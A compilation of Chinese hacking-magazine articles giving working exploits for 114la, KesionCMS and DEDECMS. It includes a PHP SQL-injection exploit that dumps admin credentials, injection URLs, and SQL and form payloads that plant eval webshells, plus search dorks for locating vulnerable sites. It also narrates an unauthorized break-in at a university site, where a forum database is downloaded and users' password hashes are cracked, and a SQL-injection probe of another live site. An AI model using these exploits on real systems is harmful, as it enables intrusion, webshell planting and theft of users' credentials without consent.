在土司看到小蟑螂公布了一个 114 啦网址导航系统注入漏洞 0day，影响包括较新版本在内的多个版本，并附有可利用 Exp。实测可爆出管理员用户名和密码，后续在后台拿 shell 时虽遇到小问题但已解决。

该导航系统为某风格自主研发并开源宣传，漏洞位于 `feedback` 目录下的 `feedback.php`，关键代码如下：

#### 一、漏洞简介

再次说明，这个漏洞由小蟑螂公布，Exp 亦由其给出，在此表示感谢。114啦网址导航是当时国内使用率较高的网址导航之一。

```php
$username = empty($_POST['username']) ? ... ;
$email    = isset($_POST['email']) ? ... ;
$content  = isset($_POST['content']) ? ... ;
if (empty($content)) { $error_msg = ...; }
```

```php
if (!empty($error_msg)) {
    throw new Exception($error_msg, 1);
}

$content = htmlspecialchars($content, ENT_QUOTES);
if ((strlen($content) > 600) || strlen($content) < 40) {
    throw new Exception('请将您的描述控制在 20~300 字，更多内容请您分次提交。', 1);
}

// 验证次数
$old_cookie = (isset($_COOKIE['fdnum'])) ? (int)$_COOKIE['fdnum'] : 0;
if ($old_cookie >= SUBMIT_ONE_DAY) {
    throw new Exception('抱歉，24 小时内您只能提交 '.SUBMIT_ONE_DAY.' 次反馈信息。', 2);
}

$old_cookie++;
if (false === app_db->insert('ylmf_feedback', array('username','email','content','addtime'), array($username,$email,$content,time()))) {
    throw new Exception('抱歉，信息提交失败，请重试。', 1);
} else {
    // 已提交次数
    if ($old_cookie == SUBMIT_ONE_DAY) {
        if (isset($_COOKIE['fdstime']) && $_COOKIE['fdstime'] > time()) {
            setcookie('fdstime', time(), time()+86400);
            setcookie('fdnum', $old_cookie, time()+86400);
        } else {
            setcookie('fdnum', $old_cookie, ...);
        }
    }
}
```

```php
time() + 86400 - ((time() - $_COOKIE['fdstime']))

throw new Exception('<div class="success">提交成功，感谢您的反馈！<a href="...">返回首页</a></div>', 3);
unset($username, $email, $content);
unset($headers, $body);
```

`$username`、`$email`、`$content` 强制转换 GBK 编码但是均未过滤，宽字符注入漏洞产生。（以上漏洞分析摘自小蜻蜓对漏洞的分析）。

目前 114 啦网址导航系统的最新版本为 114 啦网址导航系统 v1.15，包括最新版在内的所有版本都受这个漏洞影响。

#### 二、漏洞利用

为了方便测试，我下载了存在漏洞的 114 啦网址导航系统 v1.15 GBK Build 20110610 的源代码，在虚拟机里的 PHP 环境中把 114 啦网址导航系统 v1.15 GBK Build 20110610 安装了起来，在虚拟机里的访问地址为 http://127.0.0.1/114/，网站的首页如图1。


图1

下面来看漏洞利用。小蜻蜓给出的漏洞利用 Exp 的代码为：

```php
<?php
$copyright=

114la feedback injection Vul Exploit
By xz
Team www.okee.com
2011.04.02
```

```php
Usage: php $argv[0] host /path
Example: php $argv[0] 127.0.0.1 /

if ($argc < 3) {
  print_r($sbcopyright);
  die();
}

ob_start();
$url = $argv[1];
$path = $argv[2];
$sock = fsockopen($url, 80, $errno, $errstr, 30);
if (!$sock) die("$errstr ($errno)\n");

$data = "username=0kee...";
fwrite($sock, "POST $path/feedback/feedback.php HTTP/1.1\r\n");
fwrite($sock, "Accept: */*\r\n");
fwrite($sock, "Referer: http://$url/*\r\n");
fwrite($sock, "Content-Type: application/x-www-form-urlencoded\r\n");
fwrite($sock, "User-Agent: Mozilla\r\n");
fwrite($sock, "Host: $url\r\n");
fwrite($sock, "Content-Length: ".strlen($data)."\r\n");
fwrite($sock, "Connection: Keep-Alive\r\n");
fwrite($sock, "Cookie: ASPSESSIONID...\r\n\r\n");
fwrite($sock, $data);

$headers = "";
while ($str = trim(fgets($sock, 4096))) {
  $headers .= "$str\n";
}

$body = "";
while (!feof($sock)) {
  $body .= fgets($sock, 4096);
}
fclose($sock);
```

```php
if (strpos($body, 'Duplicate entry') !== false) {
  preg_match('/Duplicate entry \\'(.*)\\'/i', $body, $arr);
  $result = explode(':', $arr[1]);
  print_r("Exploit Success!\nusername:".$result[0]."\npassword:".$result[1]."\nGood Luck!");
} else {
  print_r("Exploit failed!\n");
}
ob_end_flush();
?>
```

把上面代码保存为 114exp.php。由于 Exp 是用 PHP 语言写的，因此需要用 php.exe 来运行，我在虚拟机里搭建 PHP 环境的时候已经安装了 PHP，有 php.exe，因此就不用再安装了，直接用就是了。PHP 的安装目录为 C:\php\，把 114exp.php 复制到 C:\php\ 目录下。Win+R 调出运行，输入 cmd 打开命令提示符，依次输入 cd\、cd php 切换到 C:\php\ 目录下。来看下 Exp 的利用格式，输入 php 114exp.php 回车后显示如图2。


图2


图3

利用格式为 `php 114exp.php host /path`，也就是 `php 114exp.php` 后面加网站的域名或 IP 地址，再跟上网站所在的目录。针对我虚拟机中的测试系统的 Exp 利用格式为 `php 114exp.php 127.0.0.1 /114`，执行后成功爆出管理员的用户名 admin 和密码 e10adc3949ba59abbe56e057f20f883e，如图3。至于图中中间的错误提示，是我虚拟机里程序的问题，不影响正常功能，大家可以无视。密码 e10adc3949ba59abbe56e057f20f883e 在线破解网站破解出密码为 123456。114啦网址导航系统的默认后台管理目录为 admin，用得到的用户名和密码进入了后台，如图4。

点“修改”按钮后在百度-贴吧的 HTML 代码中插入 `<?php phpinfo();?>`，如图6。


### 三、小有曲折的后台拿shell过程

本来以为进了后台拿 webshell 就简单了，但实际拿的时候却费了我不少时间，经历了一些小曲折。在后台没有上传的地方，也不存在什么编辑器，没有执行 SQL 命令的地方，看来直接通过上传或执行 SQL 命令得到 webshell 的方法行不通了。一时没办法了就到网上找方法，找到了 2010 年 4 月一个人提交给 114 啦网址导航系统官方的漏洞报告，给出了一个后台获得 webshell 的方法。报告者说 114 啦网址导航系统在 cache 处理上没有对写入 cache 的数据（我们可以控制的数据）进行过滤，就直接写入到对应的 php 文件，导致可以拿 webshell。具体报告以及对漏洞的分析可以参考报告地址。报告者给出的方法是在“网址管理”下的“首页管理”下的“名站首行”下某个网站的 HTML 代码中直接插入 php 代码。他用的演示代码是 phpinfo() 函数。看他当时的方法还能用不，毕竟时间过去了一年多，版本早就更新了，再说他把漏洞提交给了官方，官方很可能修复了那个漏洞。找到“名站首行”来修改百度-贴吧，如图5。


点提交后保存修改，访问对应的 cache 文件 `http://127.0.0.1/114/admin/data/cache/cache_mztop.php`，显示如图7，很明显 phpinfo() 函数没有执行。打开 cache_mztop.php，发现源代码如图8，PHP 的标记 `<?` 和 `?>` 被过滤掉了，自然 phpinfo() 函数不能执行了。


怎样才能绕过过滤呢？由于我不会 PHP 语言，曾天真地用 base64 对代码 `<?php phpinfo();?>` 进行加密，还是不行。经过我的测试，发现系统过滤了 `<?` 和 `?>`，却没有过滤 `<` 和 `>`，希望是只过滤了 `<?` 和 `?>`。难道 PHP 代码必须用 `<?` 和 `?>` 标记才能被执行？正好手边有《黑客脚本全本》一书，查到了 PHP 程序的 4 种写法，除了最常用的 `<?php php代码;?>` 之外，还有三种写法，分别是：

## 一个人的战争

```php
<?
php代码; // 第三种写法
?>

<script language='php'>
php代码; // 第三种写法
</script>

<%
php代码; // 第四种写法
%>
```

由于第一、二种方法都用到了 `<?` 和 `?>` 标记，不能用。来试下第三种写法，在百度贴吧的HTML代码中插入如下代码：

```php
<script language='php'>
phpinfo();
</script>
```

再次访问 `http://127.0.0.1/114/admin/data/cache/cache_mztop.php`，发现 `phpinfo()` 函数已经执行成功了，如图9。

把插入的代码修改为：

```php
<script language='php'>
eval($_POST[x]);
</script>
```

然后用 lanker 一句话PHP后门客户端3.0连接 `http://127.0.0.1/114/admin/data/cache/cache_mztop.php`，成功获得 webshell，如图10。

至此整个漏洞的利用过程就完成了。

通过搜索“Powered by 114啦网址导航”等，可能找到存在这个漏洞的网站。


我把漏洞利用 Exp 打包给大家了；为了方便复现，又把存在漏洞的 114啦网址导航系统 v1.15 GBK Build 20110610 的源代码也打包了。（文中涉及的相关软件本期光盘已收录）

## 科讯6.x - 7.06多个SQL注射漏洞从偷令到利用

科讯（KesionCMS）功能模块齐全（包括文章、图片、下载、动漫、商城、音乐、影视、求职、考试、二手房、论坛、问答、博客空间等上百项的内置功能模块），是目前国内极具影响力的开源CMS之一。也许是树大招风，被黑客大牛盯上了吧，最近几天不断有人公布科讯的漏洞，短短几天就被公布了多个SQL注射漏洞，利用漏洞都能爆出科讯管理员的用户名和密码，但进后台后我却一时不会拿 webshell 了，就没怎么重视。今天看到了别人公布了科讯后台拿 webshell 的方法，照着做了下，确实可以拿到 webshell。科讯 6.x - 7.06 的多个SQL注射漏洞对我来说也从鸡肋变为了可以获得大量shell的大餐。下面我就把科讯 6.x - 7.06 多个SQL注射漏洞介绍给大家。

#### 一、漏洞简介

##### 1. 第一个漏洞

第一个漏洞是 my5t3ry 大牛公布的，他给出了对漏洞的分析，这里直接引用：

漏洞位于注册页面的 `\User\Reg\RegAjax.asp` 中的24-46行和254-270行，代码如下：

```vb
Class Ajax_Check
  Private KS

  Private Sub Class_Initialize()
    Set KS=New PublicCls
  End Sub

  Private Sub Class_Terminate()
    Set KS=Nothing
  End Sub

  Public Sub Kesion()
    Select Case KS.S("Action")
      Case "checkusername"
        Call CheckUserName()
      Case "checkemail"
        Call CheckEmail()
      Case "checkcode"
        Call CheckCode()
      Case "getregform"
        Call GetRegForm()
      Case "getcityoption"
        Call getCityOption()
    End Select
  End Sub
End Class
```

```vb
' 略去无关代码
Sub getCityOption()
  Dim Province,XML,Node
  Province=UnEscape(KS.S("Province"))
  Dim RS:Set RS=Server.CreateObject("ADODB.RECORDSET")
  RS.Open "Select top 200 ..."
  If Not RS.Eof Then
    Set XML=KS.RsToXml(RS,"row","")
  End If

  RS.Close
  Set RS=Nothing
  If IsObject(XML) Then
    For Each Node In XML.DocumentElement.SelectNodes("row")
      KS.Echo "<option value='" & node.SelectSingleNode("@cityid").text & "'>" & node.SelectSingleNode("@city").text & "</option>"
    Next
  End If
  Set XML=Nothing
End Sub
```

以上代码中，`Province=UnEscape(KS.S("Province"))` 调用自定义函数 KS.S 进行过滤，接着又调用 UnEscape 函数解码。

其中 KS.S 函数与 UnEscape 函数原型如下：

```vb
Function DelSql(Str)
  Dim SplitSqlStr,SplitSqlArr,i
  SplitSqlStr="@exec|alter|drop|and|exec|or|insert|select|delete|update|count|master|truncate|declare|char|mid|chr|set|where|xp_cmdshell"
  SplitSqlArr=Split(SplitSqlStr,"|")
  For i=LBound(SplitSqlArr) To UBound(SplitSqlArr)
    If InStr(LCase(Str),SplitSqlArr(i))>0 Then
      Die "系统提示..."
    End If
  Next
  DelSql=Str
End Function

Public Function S(Str)
  S = DelSql(Replace(Replace(Request(Str),"'",""),";",""))
End Function
```

这里编码出现混乱，产生了与 PHP 的二次编码类似的漏洞。调用该函数时，可以 Union。

```text
http://localhost/user/reg/regajax.asp?action=getcityoption&province=...（长URL编码注入语句）
```

上面的利用针对 ACCESS，MSSQL 需要改下 SQL 语句：

```php
<?php
$str=' union Select top 10 AdminID,UserName&chr(124)&PassWord From KS_Admin';
for($i=0; $i<=strlen($str); $i++){
    $temp .= '%25' . base_convert(ord($str[$i]),10,16);
}
echo $temp.'0';
?>
```

修改 `union Select top 10 AdminID,UserName&chr(124)&PassWord From KS_Admin` 为相应的 SQL 语句即可。（MSSQL 直接备份差异比较方便）

因为解码的时候进行了 CLng 类型转换，提交字符可以使其报错从而露出物理路径。

爆物理路径：`http://localhost/user/reg/regajax.asp?action=getcityoption&province=%25i`

##### 2. 第二个漏洞

第二个漏洞是 gointa 公布的，也是 SQL 注射漏洞。他没有给出漏洞的分析，直接给出了漏洞利用方法。通过漏洞利用方法大概猜测是 plus 目录下的 Ajaxs.asp 文件出现了 SQL 注射漏洞。他给出的漏洞利用代码为：

```text
http://www.xxx.com/plus/Ajaxs.asp?action=GetRelativeItem&Key=goingta...（长URL编码SQL注入语句）
```

## 二、利用漏洞拿 webshell

为了方便和避免不必要的麻烦，我在我虚拟机里的 Windows 2003 系统中安装了存在漏洞的 KesionCMS v7.06 Build20110608 GBK 版本，来给大家演示利用漏洞拿 web-shell 的过程。在虚拟机里的访问地址为 `http://127.0.0.1/`，如图1。从图中看功能挺多的，可惜出现了安全漏洞，再多功能也黯然失色。


图1

my5t3ry 和 gointa 公布的两个 SQL 注射漏洞都不需要注册用户就可以直接利用，知道网址就可以爆管理员的用户名和密码了。

先来利用 my5t3ry 公布的漏洞来爆虚拟机中演示科讯系统的管理员用户名和密码。在浏览器中输入 `http://127.0.0.1/user/reg/regajax.asp?action=getcityoption&province=...`，爆出了管理员的用户名 admin 和密码 469e80d32c0559f8，如图2。


图2

再来用 gointa 公布的漏洞来爆管理员的用户名和密码。在浏览器中输入 `http://127.0.0.1/plus/Ajaxs.asp?action=GetRelativeItem&Key=goingta...`，也爆出了管理员的用户名 admin 和密码 469e80d32c0559f8，如图3。


可以看到利用 my5t3ry 和 gointa 公布的两个 SQL 注射漏洞都可以顺利爆出管理员的用户名和密码，至于你用哪个爆，就看自己的爱好了。

在在线破解网站 `http://www.cmd5.com/default.aspx` 破解出密码 469e80d32c0559f8 对应的明文密码为 admin888。

有了用户名和密码来进后台。科讯的默认后台目录是 Admin，但直接输入 `http://127.0.0.1/Admin/` 不会出来后台登录页面，而且会跳转到网站首页，要输入 `http://127.0.0.1/Admin/login.asp` 才会来到如图4的后台登录页面。认证码默认为 8888，用得到的用户名和密码顺利进入了后台，如图5。

在后台点“设置”大项“辅助管理”下的“服务器参数探测”，就可以直接得到网站的物理路径了，如图6。


得到了网站的物理路径 `C:\www\`。点“设置”大项“辅助管理”下的“在线执行SQL语句”来到如图7的在线执行SQL语句的地方。


通过后台首页可以看到当前我用的版本为 V7.06 Build0608，已经是最新版本。后台拿 webshell 曾经让我郁闷过，一时没了方法，后来看到 f4tb0y 给出的 r0exp3r 的方法才拿到了 webshell，利用的是 Access 导出 webshell 的方法，因为科讯的后台有在线执行SQL语句的功能。要想利用 Access 导出 webshell，还需要知道网站的物理路径，不过不用担心，网站物理路径通过后台功能可以直接得到，哈哈。


Access 导出 webshell 需要用到三条 SQL 语句，把第一条语句 `create table a (b varchar(50))` 复制到输入框中，然后点“立即执行”按钮来执行，接下来输入第二条语句 `insert into a.(b) values('<%eval request("x")%>');`，点“立即执行”按钮，最后输入第三条语句 `select * into fuck in 'c:\www\e.asp;.xls' 'excel 4.0;' from a`，点“立即执行”按钮来执行，其中第三条语句中的 `C:\www\` 就是得到的网站的物理路径。执行第三条语句后，执行SQL语句的页面可能会卡一会，不过 webshell 的文件 `e.asp;.xls` 已经在网站目录下生成了，如图8。

webshell 在网站根目录下，用 lake2 的 eval 最小马发送端连接 `http://127.0.0.1/e.asp;.xls`，成功获得 webshell，如图9。利用的是 IIS 6.0 的解析漏洞。

利用我介绍的方法获得 webshell 需要满足两个条件：第一是爆出的密码能够破解出来，第二就是网站所在的服务器用的是 IIS 6.0 来运行 ASP 程序。

受这两个漏洞影响的 KesionCMS 的版本是 6.x - 7.06，包括目前最新版本 V7.06 Build0608 也受这两个漏洞影响。通过搜索“2006-2010 Powered by Kesion”等，可能找到存在这个漏洞的网站。

考虑到两条爆管理员用户名和密码的语句比较长，手工输入的话比较麻烦，我把两条语句还有利用 Access 导出 webshell 的语句保存到一个文本文件 exp.txt 中提供给大家了。

（文中涉及的相关软件本期光盘已收录）


图9

## 漏洞添丁——DEDECMS多个版本拿shell漏洞

2011年8月11日，jannock 在土司公布了一个 DEDECMS 拿 SHELL 的 EXP，经过我在虚拟机中测试，EXP 对 DEDECMS 5.6 版本以及最新的 DEDECMS 5.7 版本都有效，而且 EXP 利用过程非常简单，对采用 DEDECMS 系统的网站可以做到秒杀。下面赶快把这个漏洞介绍给大家，一起来体验这个 EXP 的威力。

“炮台”建成后就可以对存在漏洞的网站指哪里打哪里，而且对目标网站是一炮就能打下。这个“炮台”就是一个插入了特殊数据的 DEDECMS 的数据库，而且数据库服务器上的 MySQL 需要允许任何主机外部连接。我首先来搭建这个“炮台”。

我从网上下载了 DedeCms v5.6 的源代码 DedeCms v5.6 GBK build 20110128.tar.gz 和最新版本的 DedeCms v5.7 的源代码 DedeCms v5.7.11 build 0701 GBK.tar.gz。我虚拟机里有一个 Windows 2003 系统，里面有由 Apache+PHP+MySQL+phpMyAdmin+Zend 搭建成的 PHP 环境。获得一个 DEDECMS 的数据库最简单的方法就是安装一个 DEDECMS，我安装了一个 DedeCms v5.6 GBK build 20110128，数据库名字为默认的 dedecmsv56gbk，安装完成后网站的访问地址为 `http://127.0.0.1/dede/`，如图1。


图1

由于网上还没有出现关于这个漏洞的原理分析，因此我们直接来看利用 jannock 公布的 EXP 拿 shell 的方法。利用 jannock 公布的 EXP 拿 shell 的时候，你首先要建立一个“炮台”。

DEDECMS 的数据库有了，看 MySQL 允不允许外连。发现我虚拟机中的 MySQL 不允许外连，来设置让它允许外连。如何知道 MySQL 允不允许外连呢？在另一台机子上打开 cmd 命令窗口，输入 `telnet IP 3306`，如果看到类似 “Host 'x.x.x.x' is not allowed to connect to this MySQL server” 的提示就是不允许外部连接（其中 IP 是 MySQL 服务器的 IP 地址）；如果看到的是 MySQL 的版本号就说明允许外部连接。我设置 MySQL 允许外连用的是网上找到的改表法，用 phpMyAdmin 修改 `mysql` 数据库里的 `user` 表里的 `host` 项从 `localhost` 改成 `%`，然后在 `mysql` 数据库中执行 SQL 命令 `flush privileges` 后，MySQL 就能从外部连接了，如图2。

下面该往 DEDECMS 的数据库 dedecmsv56gbk 中插入特殊的数据了。jannock 给出的插入数据库的代码为：

```sql
insert into dede_mytag(aid,normbody)
values(1,'{dede:php}$fp=@fopen("1.php","a");@fwrite($fp,"<?php eval($_POST[c]);?>");echo OK;@fclose($fp);{/dede:php}')
```


作用是在当前目录下生成 PHP 一句话木马 1.php，一句话木马的内容为 `<?php eval($_POST[c]) ?>`。因为我们的杂志是《黑客X档案》，我简单修改后的插入数据库的代码为：

```sql
insert into dede_mytag(aid,normbody)
values(1,'{dede:php}$fp=@fopen("x.php","a");@fwrite($fp,"<?php eval($_POST[x]) ?>");echo OK;@fclose($fp);{/dede:php}')
```

作用是在当前目录下生成 PHP 一句话木马 x.php，一句话木马的内容为 `<?php eval($_POST[x]) ?>`。在 phpMyAdmin 中选择数据库 dedecmsv56gbk，点击“SQL”按钮执行后即可把数据插入数据库中，如图3。


下面该提交数据的 EXP 出场了。jannock 给出的 EXP 的代码为：

```html
<form action="" method="post" name="QuickSearch" id="QuickSearch" onsubmit="addaction()">
<input type="text" name="doaction" value="http://localhost:8080/plus/mytag_js.php?aid=1" />
<input type="text" name="dbhost" value="..." />
<input type="text" name="dbuser" value="..." />
<input type="text" name="dbpwd" value="..." />
<input type="text" name="dbname" value="..." />
<input type="text" name="dbprefix" value="dede_" />
<input type="text" name="nocache" value="true" />
<input type="submit" value="提交" />
</form>
<script>
function addaction(){
  document.QuickSearch.action=document.QuickSearch.doaction.value;
}
</script>
```

把 EXP 代码保存为 dedecmsexp.html。使用前需要按目标数据库配置修改参数：`dbhost` 为 MySQL 服务器IP，`dbuser` 为用户名，`dbpwd` 为密码，`dbname` 为 DEDECMS 数据库名（如 dedecmsv56gbk），`dede_` 为表前缀（默认一般不改）。修改后的 EXP 代码为：

```html
<form action="" method="post" name="QuickSearch" ...> ... </form>
```

## 一个人的战争

```html
id="QuickSearch" onsubmit="addaction()">
<input type="text" value="http://localhost:8080/plus/mytag_js.php?aid=1" name="doaction" ...>
<input type="text" value="192.168.197.130" name="_COOKIE[GLOBALS][cfg_dbhost]" ...>
<input type="text" value="root" name="_COOKIE[GLOBALS][cfg_dbuser]" ...>
<input type="text" value="123456" name="_COOKIE[GLOBALS][cfg_dbpwd]" ...>
<input type="text" value="dedecmsv56gbk" name="_COOKIE[GLOBALS][cfg_dbname]" ...>
<input type="text" value="dede_" name="_COOKIE[GLOBALS][cfg_dbprefix]" ...>
<input type="text" value="true" name="nocache" ...>
<input type="submit" value="提交" name="QuickSearchBtn">
</form>
<script>
function addaction(){
  document.QuickSearch.action=document.QuickSearch.doaction.value;
}
</script>
```

至此，“炮台”搭建完成，下面该找个目标试试“炮台”的威力了。我来搭建第一个目标，第一个目标是 Dedecms v5.6 GBK build 20110128，安装 Dedecms v5.6 GBK build 20110128，访问地址为 http://127.0.0.1/dede1/。把 EXP 中的提交地址 http://localhost:8080/plus/mytag_js.php?aid=1 修改为目标的提交地址 http://127.0.0.1/dede1/plus/mytag_js.php?aid=1，打开 dedecmsexp.html 的界面如图4。


图4

点“提交”按钮，过一会显示了空白页面，查看源文件，发现“document.write("OK");”就说明 shell 文件已经生成了，如图5。来到 plus 目录下，发现 x.php 果然生成了，如图6。


图5


图6

用 lanker 一句话 PHP 后门客户端 3.0 连接 shell 的地址 http://127.0.0.1/dede1/plus/x.php，写上密码 x，成功得到 shell，如图7。


图7


图8

看来 EXP 对 DEDECMS 5.6 版本有效，对 DEDECMS 的最新版 DEDECMS 5.7 是否有效呢？我们来实际测试下。我在虚拟机中安装了最新的 DedeCms v5.7.11 build 0701 GBK 版本，访问地址为 http://127.0.0.1/dede7/，修改 EXP 文件 dedecmsexp.html 中的代码，把提交地址修改为 http://127.0.0.1/dede7/plus/mytag_js.php?aid=1，打开 dedecmsexp.html，如图8，点“提交”按钮后在 plus 目录下也生成了 x.php，如图9。

看来 EXP 对 DEDECMS 5.6 和 DEDECMS 5.7（包括 5.7 版本的最新版本）都有效，而且都是秒杀，修改个提交地址，点一下“提交”按钮，shell 就到手了，很爽吧。由于目前网上 DEDECMS 用得最多的版本是 5.6 和 5.7，经过实际测试 EXP 对这两个版本通杀，别的版本我就不测试了，有兴趣的可以自己测试。


图9


图10

搭建好“炮台”后，要打哪个目标只需要修改 EXP 中的提交地址就行了。

通过搜索“Powered by DedeCMSV56”、“Powered by DedeCMSV57”等可能找到可以利用这个漏洞的网站。如果大家去网上拿 shell，千万不要做破坏，否则造成的任何后果与我无关。还是建议大家在自己的虚拟机里测试下漏洞。为了方便大家做本地测试，我把 EXP 文件 dedecmsexp.html 还有存在漏洞的程序源代码 DedeCms v5.6 GBK build 20110128.tar.gz、DedeCms v5.7.11 build 0701 GBK.tar.gz 打包给大家了。

用 lanker 一句话 PHP 后门客户端 3.0 连接 shell 的地址 http://127.0.0.1/dede7/plus/x.php，也成功得到了 shell，如图10。

## X大X中心，我下了你的海绵！

#### 题记：入侵的理由

那天同学聚会，闲谈之中得知某同学最近去 X 大学读博士了，羡慕之余也少不了几分“嫉妒”——其实我只是硕士（话外音：入侵，真的需要理由么？）！正好这一段时期也很少看到有 XX 大学之类的“母校攻略”入侵手记，今天就让小菜我来唱回主角吧，友情检测一下这个牛哄哄的大学是否真的像传说中的那样厉害。

“检测”下很快就有了最不想看到的结果——“这个连接不能 SQL 注入！请试别的连接！！”（如图1），郁闷。

#### 1. 小试失败

首先在 360 浏览器中打开目标网站观察一番，感觉很干净清爽；接着点击“热点招生”栏目下的第一条记录“XX 大学 2011 年招收在职人员攻读硕士专业学位招生简章”，其链接地址形式为“http://me.xxx.edu.cn/kechengShow.asp?ArticleID=185（链接已做处理，下同）”，是 ASP 的。老规矩，把这个 URL 链接复制到“啊D注入工具”中（能用工具时我就绝不手工，省事啊），在“啊D”的“SQL 注入检测”...


图1

不能注入，的确是个大问题，要知道，这可是小菜我最近几年自认为学得甚为顺手的招式了。怎么办呢？停止不前不是做黑客的风格，不停地思考与不断地尝试才是进步的硬道理。既然流行的注入这条路走不通，那就剑走偏锋吧——除非它没有任何漏洞（不过这在理论上几乎是不太可能的）！

#### 2. Google Hacking 显神威

闲闲之余，忽然想起几个月之前看到的一些关于使用搜索引擎进行 Hack 的知识来（即“Google Hacking”）。很多时候我们不可能对目标网站的所有链接进行巡查，但是在 Google 蜘蛛机器人的帮助下，往往能够给我们一些意想不到的惊喜。进行 Google Hacking 的诀窍就是精心构建目标性极强的关键字进行搜索，使用像 site、inurl 和 filetype 之类的语法，而不完全是简单地使用布尔逻辑检索。比如小菜我构建的关键字就是“site:me.xxx.edu.cn inurl:inc conn.asp”，作用是检测 X 大学是否存在可以任意浏览网站目录结构的老漏洞。其中的“site:me.xxx.edu.cn”意思是将搜索的目标网站仅限于 me.xxx.edu.cn，而“inurl:inc conn.asp”的意思是在所限定的目标网站中搜索数据库链接文件 conn.asp 和存放该文件的习惯性目录 Inc。

点击“Google 搜索”按钮之后很快就有了两个针对性很强的搜索结果（如图2），太好了，赶紧点击第一条链接试一下，呵呵，竟然真出来了（如图3）！看来，Google 大叔真的很给力啊！而且，该网管还生怕我们不知道，还特意加上了“网站备份-重要！”之类的字眼儿。


#### 3. 寻找并下载数据库

到了这一步，就该进行翻箱倒柜式的查找自己感兴趣的资料了。找什么好呢？当然是数据库啦，因为里面保存的可是账号信息啊（包括管理员 Admin）！由于当前的 Inc 目录中并没有我们的目标文件，因此点击左上方的“转到父目录”（有的网站是英文的“To Parent Directory”，意思是一样的）；结果仍没发现数据库，我再转！终于，在“me.xxx.edu.cn-/uploadfiles/My Documents/”中发现了可爱的数据库文件——“bbsjsce.mdb”（如图4）！而且，看着这个数据库的大小就觉得心里特别舒服，十七八 MB 多啊，应该是存有海量的账号信息的！直接点击它，360 的“安全下载器”立刻开始了下载，不到 1 分钟，数据库到手了。

双击调用 Access 程序来打开下载到的 bbsjsce.mdb 数据库文件，在表的第一个记录处显示的就是 DV_Admin（根据经验，只要带有 Admin 字眼儿的一般都是权限很大的好东东）。双击之后，看到了两个用户名：“admin”和“hlh1_040”，而且对应的 MD5 密码竟然都是一样的“a5800784d9f86a70”（如图5）。如果这个原密码不是“123456”之类的最常用密码的话，那就说明这两个用户隶属于同一个管理员，而“hlh1_040”则很可能是管理员的姓名缩写之类的重要信息！OK，先不忙着进行社工刺探的准备，直接把这个 MD5 密码值放网站上跑跑看吧；结果试了几个提供破解服务的网站都提示是付费记录（包括 www.xmd5.com），要钱啊，不厚道，真郁闷。不过，小菜的韧性十足，接着试，终于在 http://www.md5.cc/ 网站上得到了破解答案——“huanglei”（如图6）。怎么样，刚才的猜想很靠谱吧？管理员姓名应该叫“黄磊”，因此就存在一个替身管理员叫“hlh1_040”。

账号，就这么在转眼间被轻易拿走！归根结底，是 Google Hacking 的错吗？虽然网站没有注入漏洞，而且整体看上去也很上档次，但就是这么一个小小的越权浏览目录漏洞（应该是个非常老的漏洞了），最终让自己的核心数据库大白于天下，危害程度自不必多言。

另外，本来是只针对于 XX 大学的入侵检测，现在突然想到了这个问题的严重性——既然 Google Hacking 这么给力，那为何不试试全面搜索存在这种老漏洞的网站呢？该不会是有“类阿鼠碰上十五贯”这么巧吧？OK，直接在 Google 中以“inurl:inc conn.asp”为关键字进行搜索试试，竟然返回有 4260 条结果（如图9）！当然这些结果中也并不都是可以进行网站目录的越权浏览的，经过小规模的测试后发现：有接近一半被 Google 到的网站都存在这样的严重问题，小菜我无语了。


图7


图8

#### 4. 数据库中“寻宝”

当然，如此庞大的数据库中肯定不止是只有个 admin 信息。一番查找之后，小菜我在“Dy_User”和“Dy_User1”中又有了重大发现（如图7），好多的账号啊，分别有 9560 和 1502 条记录！每个账号的 MD5 密码、对应的真实用户姓名和邮箱（有很多留下的是 QQ 信箱）等信息一览无余，现在这个“动网论坛”已经沦为“洞网”了，呵呵。其中的“UserPassword”密码列都是很有规律的 16 位字母与数字组合式 MD5 密码，于是小菜我分别在 http://www.cmd5.com/、http://www.md5.com.cn/、http://www.xmd5.com/、http://www.md5.cc/ 和 http://md5.mmkey.com/ 这五个提供在线破解 MD5 密码服务的网页上轮番测试，最终的实验结果是：从第一个“admin”开始到第十四个“liy ma”，除了第七个“张梦川”猜解失败外，共“免费”破解成功了 13 个（如图8）！成功率相当高，原因是这些账号的密码都是些非常简单的弱口令，像“111111”、“16831176”之类的，最复杂的也无非是“admin888”，而账号 admin 的密码竟然是“7430”！


图9

> 编辑点评：随着大学新生录取工作将近，有不少大学站点被攻破、被挂马，在这里提醒下管理员要勤查站点，全面检查，千万不要贪图方便直接把站点备份放于站点的目录下面等等。

### 小结：最后的几句话

入侵检测进行到这一步，小菜我觉得已经成功了，也没必要再继续穷追下去了。偌大的一个名牌学校，N 多的论坛……

## 残残的思维——记安全检测某网站

今天看到群里面大家一起在搞一个网站，很火热的样子。作为群主的我自然也不能落伍，所以也跟着去了打酱油了。后来在拿站的过程中确实遇到一些困难，觉得思路不错，于是不敢藏私，投稿发出来给大家共享一下。

来到主页，如图1。觉得界面很清新，很简洁，也可以一眼看出一定是某款 CMS 建站系统的。那么我们就来试试它的系统安全怎么样了。随便点开一个 ASP 展示页，在提交参数添加一个单引号提交。首先提交：

```
http://www.xxxxxx.cn/web_news/news_view.asp?bigclass_name=...&smallclass_name=...&news_id=59%27
```


回显如图2。感觉到一阵激动，看起来提权有望了，继续提交 and 1=1 跟 and 1=2 进一步检测。但是悲剧出现了，提交代码：

```
http://www.xxxxxx.cn/web_news/news_view.asp?bigclass_name=...&smallclass_name=...&news_id=59%27%20and%201=1
```

结果如图3。


看来他是把 and 1=1 这样的字符给过滤了，但是单引号没有过滤。但是这直接影响到了我们以后的 union 联合查询，所以这里的 GET 注入无法利用了。尝试了其他几个页面也遇到了相同的问题，于是我就尝试了 cookies 注入，提交：

```
http://www.xxxxxx.cn/web_news/news_view.asp
```

然后再提交：

```javascript
javascript:alert(document.cookie='bigclass_name='+escape('...')+'&smallclass_name=...&news_id=59');
```

用 cookies 提交所需要的数据，但是很遗憾刷新后结果跟 http://www.xxxxxx.cn/web_news/news_view.asp 是一样的，这样就是说我们提交的 cookies 值没有被接收到。我想应该是网站有个 ASP 过滤文件把 cookies 提交数据给过滤掉了，于是这条路也死了。没办法啊，继续在网站里头乱晃。看了一下图片，也都是储存在 images 这样的文件夹下面的，也找不到编辑器。似乎一切都陷入了绝境，让我纠结很久都找不到出路。忽然群里面发出这个网站的人说这个网站带有一个论坛，我无语了。这么重要的信息居然不早说（当主站已陷入绝境的时候，旁注跟分站是至关重要的。）。

